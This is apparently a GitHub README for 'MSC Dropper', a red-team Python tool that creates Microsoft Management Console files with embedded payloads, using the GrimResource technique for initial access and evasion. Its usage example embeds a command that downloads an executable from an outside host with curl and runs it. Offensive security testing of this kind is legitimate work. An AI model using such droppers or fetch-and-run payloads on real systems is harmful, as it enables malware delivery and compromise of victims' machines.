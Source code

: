 [![Zero Detection Logo](https://github.com/ZERODETECTION/H9_Stage0/blob/main/logo_sm.png)](https://www.zerodetection.net/)


# MSC Dropper Tool

MSC Dropper is a Python script designed to automate the creation of MSC (Microsoft Management Console) files with customizable payloads for arbitrary execution. This tool leverages a method discovered by Samir (@SBousseaden) from Elastic Security Labs, termed #GrimResource, which facilitates initial access and evasion through `mmc.exe`.

## Overview

The script allows users to generate MSC files that can execute arbitrary commands or scripts within the Microsoft Management Console environment. This capability is particularly useful for security research and testing environments.

## Features

- **Automated MSC File Generation**: Create MSC files with specified commands or scripts embedded.
- **Payload Customization**: Customize the payload to execute any command or script that `mmc.exe` can invoke.
- **Command-Line Interface**: Simple command-line interface for quick generation of MSC files.

## Installation

Clone the repository:

   ```bash
   git clone https://github.com/ZERODETECTION/MSC_Dropper.git
   ```

## Usage

### Generating an MSC File

To generate an MSC file with a specific command or script:

```bash
python msc_dropper.py template1.msc out.msc "cmd /c curl -O http://wslab.de/tools/messagebox.exe && messagebox.exe"
```

Replace `"cmd /c curl -O http://wslab.de/tools/messagebox.exe && messagebox.exe"` with the command or script you want to execute. Ensure that the command is formatted correctly to work within the Windows environment and `mmc.exe`.

### Customizing Payloads

You can customize the payload directly within the `template1.msc` file or modify the script to automate more complex payload generation.

## Contributing

Contributions are welcome! Please fork the repository and submit pull requests.

## Credits

- Samir (@SBousseaden) from Elastic Security Labs for discovering the initial access and evasion method involving `mmc.exe`.

## License

This project is licensed under the MIT License.
